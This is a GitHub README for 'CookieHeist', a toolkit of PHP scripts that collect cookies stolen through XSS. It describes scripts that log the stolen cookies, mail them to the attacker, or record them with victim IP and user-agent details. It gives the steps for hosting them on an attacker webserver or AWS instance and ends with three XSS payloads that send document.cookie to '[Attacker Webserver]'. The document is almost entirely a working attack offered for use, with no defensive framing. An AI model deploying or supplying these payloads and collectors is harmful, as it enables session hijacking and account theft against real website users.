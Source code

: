 # CookieHeist
PHP Cookie Stealing Scripts for use in XSS

1. Cookiesteal-simple.php - Records whatever "c" parameter holds, in example case the document.cookie string, writes value to log.txt. 

2. Cookiemail.php - This version code will mail the cookies to hacker mail using the PHP() mail function with subject “Stolen cookies”.

3. Cookiesteal-v.php (verbose) - Collects the IP address, port number, host(usually computer-name), user agent and cookie.

## Usage
1. On the remote attacker machine, start the webserver (Apache2 in example):
'''
sudo service apache2 start
'''
2. Git clone the repo locally and then push the chosen "Cookie stealer" PHP script from local host to the attacking machine


git clone https://github.com/RxSec/CookieHeist


cd CookieHeist


sudo scp cookiestealer-simple.php username@AttackMachine:/var/www/html/


sudo scp log.txt username@AttackMachine:/var/www/html/

**AWS Version**:

scp -i AWS-Key.pem cookiesteal-simple.php ec2-user@ec2[YOUR IP].us-east-2.compute.amazonaws.com:~/.

sudo mv cookiestealer-simple.php /var/www/html/

Example: http://[Attacker Webserver]/cookiesteal-simple.php

##### Setting Permissions:

Figure out which user is owning httpd process using the following command:

ps aux | grep httpd

Output should be similar to this:

ec2-user  1569  0.0  0.1  12840  1064 pts/0    S+   17:55   0:00 grep httpd

So now you know the user who is trying to write files, which is in this case ec2-user You can now go ahead and set the permission for directory where your php script is trying to write something:

sudo chown ec2-user:ec2-user /var/www/html/

sudo chmod 755 /var/www/html/

_XSS Payload Examples_:
* <script javascript:text>document.location="http://[Attacker Webserver]cookiesteal-simple.php?c=" + document.cookie + "&t=Alert"; </script>

* <script>document.location='http://[Attacker Webserver]/cookiesteal-v.php?cookie=' + document.cookie</script>

* <img src=x onerror=this.src='http://[Attacker Webserver]/cookiesteal-v.php?cookie='+document.cookie>
